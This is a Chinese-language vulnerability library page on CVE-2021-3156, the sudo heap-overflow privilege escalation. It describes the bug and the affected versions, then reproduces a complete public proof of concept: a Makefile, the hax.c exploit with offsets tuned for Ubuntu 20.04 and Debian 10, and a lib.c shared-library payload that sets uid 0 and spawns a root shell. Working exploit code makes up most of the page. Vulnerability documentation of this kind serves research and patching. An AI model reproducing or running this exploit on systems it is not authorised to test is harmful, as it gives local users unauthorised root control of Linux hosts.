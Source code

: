 ```yaml
---
title: Linux sudo权限提升漏洞 CVE-2021-3156
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - 操作系统漏洞
 - Linux
---
```


# Linux sudo权限提升漏洞 CVE-2021-3156

## 漏洞描述

2021年1月26日，Linux安全工具sudo被发现严重的基于堆缓冲区溢出漏洞。利用这一漏洞，攻击者无需知道用户密码，一样可以获得root权限，并且是在默认配置下。此漏洞已分配为CVE-2021-3156，危险等级评分为7分。

当sudo通过-s或-i命令行选项在shell模式下运行命令时，它将在命令参数中使用反斜杠转义特殊字符。但使用-s或-i标志运行sudoedit时，实际上并未进行转义，从而可能导致缓冲区溢出。因此只要存在sudoers文件（通常是/etc/sudoers），攻击者就可以使用本地普通用户利用sudo获得系统root权限。研究人员利用该漏洞在多个Linux发行版上成功获得了完整的root权限，包括Ubuntu 20.04（sudo 1.8.31）、Debian 10（sudo 1.8.27）和Fedora 33（sudo 1.9.2），并且sudo支持的其他操作系统和Linux发行版也很容易受到攻击。

## 漏洞影响

> Sudo 1.8.2 - 1.8.31p2
>
> Sudo 1.9.0 - 1.9.5p1

## 漏洞复现

> [!NOTE]
>
> 目前POC已经在Github公开

[Linux sudo权限提升漏洞 CVE-2021-3156](https://github.com/blasty/CVE-2021-3156)

![](/img/20210924015313987777.png)

当前可以验证的Linux环境为

```
 Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31
 Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28
```

> [!NOTE]
>
> 这里使用腾讯云中的Ubuntu镜像进行复现

![](/img/20210924015314161519.png)

使用命令

![](/img/20210924015314378209.png)

![](/img/20210924015314525517.png)

## 漏洞利用POC

> [!NOTE]
>
> POC目录已经加入漏洞利用代码
>
> 另一个无交互式shell使用的脚本 https://github.com/Rvn0xsy/CVE-2021-3156-plus

Makefile

```shell
all:
	rm -rf libnss_X
	mkdir libnss_X
	gcc -o sudo-hax-me-a-sandwich hax.c
	gcc -fPIC -shared -o 'libnss_X/P0P_SH3LLZ_ .so.2' lib.c
clean:
	rm -rf libnss_X sudo-hax-me-a-sandwich
```



hax.c

```c
/**
 ** CVE-2021-3156 PoC by blasty <peter@haxx.in>
 ** ===========================================
 **
 ** Exploit for that sudo heap overflow thing everyone is talking about.
 ** This one aims for singleshot. Does not fuck with your system files.
 ** No warranties.
 **
 ** Shout outs to:
 **   Qualys      - for pumping out the awesome bugs
 **   lockedbyte  - for coop hax. (shared tmux gdb sessions ftw)
 **   dsc         - for letting me rack up his electricity bill
 **   my wife     - for all the quality time we had to skip
 **
 **  Enjoy!
 **
 **   -- blasty // 20210130
 **/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <stdint.h>
#include <unistd.h>
#include <ctype.h>

// 512 environment variables should be enough for everyone
#define MAX_ENVP 512

typedef struct {
	char *target_name;
	char *sudoedit_path;
	uint32_t smash_len_a;
	uint32_t smash_len_b;
	uint32_t null_stomp_len;
	uint32_t lc_all_len; 
} target_t;

target_t targets[] = {
    {
        .target_name    = "Ubuntu 20.04.1 (Focal Fossa) - sudo 1.8.31, libc-2.31",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 56,
        .smash_len_b    = 54,
        .null_stomp_len = 63, 
        .lc_all_len     = 212
    },
    {
        .target_name    = "Debian 10.0 (Buster) - sudo 1.8.27, libc-2.28",
        .sudoedit_path  = "/usr/bin/sudoedit",
        .smash_len_a    = 64,
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    }
};

void usage(char *prog) {
    printf("  usage: %s <target>\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i < sizeof(targets) / sizeof(target_t); i++) {
        printf("    %d) %s\n", i, targets[i].target_name);
    }
    printf("  ------------------------------------------------------------\n");
    printf("\n");
}

int main(int argc, char *argv[]) {
    printf("\n** CVE-2021-3156 PoC by blasty <peter@haxx.in>\n\n");

    if (argc != 2) {
        usage(argv[0]);
        return -1;
    }

    target_t *target = &targets[ atoi(argv[1]) ];

    printf("using target: '%s'\n", target->target_name);

    char *smash_a = calloc(target->smash_len_a + 2, 1);
    char *smash_b = calloc(target->smash_len_b + 2, 1);

    memset(smash_a, 'A', target->smash_len_a);
    memset(smash_b, 'B', target->smash_len_b);

    smash_a[target->smash_len_a] = '\\';
    smash_b[target->smash_len_b] = '\\';

    char *s_argv[]={
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    };

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i < target->null_stomp_len; i++) {
        s_envp[envp_pos++] = "\\";
    }
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target->lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target->lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;

    printf("** pray for your rootshell.. **\n");

    execve(target->sudoedit_path, s_argv, s_envp);
    return 0;
}
```



lib.c

```c
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
 
static void __attribute__ ((constructor)) _init(void);
 
static void _init(void) {
	printf("[+] bl1ng bl1ng! We got it!\n");
	setuid(0); seteuid(0); setgid(0); setegid(0);
	static char *a_argv[] = { "sh", NULL };
	static char *a_envp[] = { "PATH=/bin:/usr/bin:/sbin", NULL };
	execv("/bin/sh", a_argv);
}
```

